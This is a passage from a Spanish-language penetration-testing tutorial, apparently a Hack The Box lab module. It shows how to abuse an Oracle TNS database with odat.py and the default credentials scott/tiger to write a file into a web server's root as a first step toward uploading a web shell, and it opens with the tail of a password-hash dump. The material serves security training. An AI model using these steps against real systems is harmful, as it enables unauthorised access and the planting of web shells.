 ```shell-session

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```

Otra opción es cargar un shell web en el objetivo. Sin embargo, esto requiere que el servidor ejecute un servidor web, y necesitamos saber la ubicación exacta del directorio raíz para el servidor web. Sin embargo, si sabemos con qué tipo de sistema estamos tratando, podemos probar las rutas predeterminadas, que son:

|**Sistema operativo**|**Camino**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

Primero, siempre es importante probar nuestro enfoque de explotación con archivos que no parecen peligrosos para los antivirus o los sistemas de detección/prevención de intrusiones. Por lo tanto, creamos un archivo de texto con una cadena y lo usamos para cargar en el sistema de destino.

#### Oracle RDBMS: carga de archivo

  Oracle TNS

```shell-session
xnoxos@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
xnoxos@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finalmente, podemos probar si el enfoque de carga de archivo funcionó con`curl`. Por lo tanto, usaremos un`GET http://<IP>`Solicitar, o podemos visitar a través del navegador.

  Oracle TNS

```shell-session
xnoxos@htb[/htb]$ curl -X GET http://10.129.204.235/testing.txt

Oracle File Upload Test
```